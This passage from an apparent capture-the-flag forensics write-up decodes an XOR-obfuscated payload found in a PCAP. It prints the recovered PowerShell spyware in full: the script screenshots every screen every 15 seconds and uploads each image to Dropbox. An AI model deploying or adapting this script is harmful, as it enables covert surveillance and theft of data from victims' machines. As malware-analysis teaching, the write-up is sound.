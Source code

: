 This essentially performs an XOR operation with `0x1d` on every character in the downloaded file. This information might be useful later on in our investigations. Now lets proceed with the PCAP file.

### PCAP File
Inside the `.lnk` file we found that a request was made to a fake windows updater url. Looking at the `.pcap` file and searching for the domain, we find that the IP address leads to `77.74.198.52`. We select one of its requests and follow the HTTP stream. One of the packets contains a giant blob of random text:
```
7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f...
```
It looks like an encoded string and we know that we have to decode it with the XOR function we found previously. Now there are several ways to solve this. Either we use [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'0x1d'%7D,'Standard',false)) and apply the XOR operation, or we can run the script ourselves in the tool from [TryItOnline](https://tio.run/#powershell) by replacing the `$vurnwos` variable with the above string. Either way we retrieve the decoded script:
```bash
function DropBox-Upload {
    [CmdletBinding()]
    param (
        [Parameter (Mandatory = $True, ValueFromPipeline = $True)]
        [Alias("f")]
        [string]$SourceFilePath
    )
    $DropBoxAccessToken = "HTB{s4y_Pumpk1111111n!!!}"
    $outputFile = Split-Path $SourceFilePath -leaf
    $TargetFilePath="/$outputFile"
    $arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
    $authorization = "Bearer " + $DropBoxAccessToken
    $headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
    $headers.Add("Authorization", $authorization)
    $headers.Add("Dropbox-API-Arg", $arg)
    $headers.Add("Content-Type", 'application/octet-stream')
    Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}

while(1){
  Add-Type -AssemblyName System.Windows.Forms,System.Drawing
  $screens = [Windows.Forms.Screen]::AllScreens
  $top    = ($screens.Bounds.Top    | Measure-Object -Minimum).Minimum
  $left   = ($screens.Bounds.Left   | Measure-Object -Minimum).Minimum
  $width  = ($screens.Bounds.Right  | Measure-Object -Maximum).Maximum
  $height = ($screens.Bounds.Bottom | Measure-Object -Maximum).Maximum
  $bounds   = [Drawing.Rectangle]::FromLTRB($left, $top, $width, $height)
  $bmp      = New-Object -TypeName System.Drawing.Bitmap -ArgumentList ([int]$bounds.width), ([int]$bounds.height)
  $graphics = [Drawing.Graphics]::FromImage($bmp)
  $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)

  $bmp.Save("$env:USERPROFILE\AppData\Local\Temp\$env:computername-Capture.png")
  $graphics.Dispose()
  $bmp.Dispose()
  
  start-sleep -Seconds 15
 "$env:USERPROFILE\AppData\Local\Temp\$env:computername-Capture.png" | DropBox-Upload
}
```
Inside we find our flag as the DropBox AccessToken.
